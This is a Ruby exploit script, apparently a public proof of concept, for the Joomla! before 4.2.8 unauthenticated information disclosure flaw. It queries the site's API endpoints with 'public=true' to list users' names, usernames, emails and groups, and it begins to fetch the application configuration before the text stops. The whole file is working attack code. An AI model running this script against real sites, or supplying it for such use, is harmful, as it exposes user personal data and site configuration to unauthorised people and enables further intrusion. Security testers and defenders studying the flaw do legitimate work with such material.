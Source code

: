 ```ruby
require 'httpx'
require 'docopt'
require 'paint'

doc = <<~DOCOPT
  #{Paint['Joomla! < 4.2.8 - Unauthenticated information disclosure', :bold]}

  #{Paint['Usage:', :red]}
    #{__FILE__} <url> [options]
    #{__FILE__} -h | --help

  #{Paint['Parameters:', :red]}
    <url>       Root URL (base path) including HTTP scheme, port and root folder

  #{Paint['Options:', :red]}
    --debug     Display arguments
    --no-color  Disable colorized output (NO_COLOR environment variable is respected too)
    -h, --help  Show this screen

  #{Paint['Examples:', :red]}
    #{__FILE__} http://127.0.0.1:4242
    #{__FILE__} https://example.org/subdir

  #{Paint['Project:', :red]}
    #{Paint['author', :underline]} (https://pwn.by/noraj / https://twitter.com/noraj_rawsec)
    #{Paint['company', :underline]} (https://www.acceis.fr / https://twitter.com/acceis)
    #{Paint['source', :underline]} (https://github.com/Acceis/exploit-CVE-2023-23752)
DOCOPT

def fetch_users(root_url, http)
  vuln_url = "#{root_url}/api/index.php/v1/users?public=true"
  http.get(vuln_url)
end

def parse_users(root_url, http)
  data_json = fetch_users(root_url, http)
  data = JSON.parse(data_json)['data']
  users = []
  data.each do |user|
    if user['type'] == 'users'
      id = user['attributes']['id']
      name = user['attributes']['name']
      username = user['attributes']['username']
      email = user['attributes']['email']
      groups = user['attributes']['group_names']
      users << {id: id, name: name, username: username, email: email, groups: groups}
    end
  end
  users
end

def display_users(root_url, http)
  users = parse_users(root_url, http)
  puts Paint['Users', :red, :bold]
  users.each do |u|
    puts "[#{u[:id]}] #{u[:name]} (#{Paint[u[:username], :yellow]}) - #{u[:email]} - #{u[:groups]}"
  end
end

def fetch_config(root_url, http)
  vuln_url = "#{root_url}/api/index.php/v1/config/application?public=true"
  http.get(vuln_url)
end
```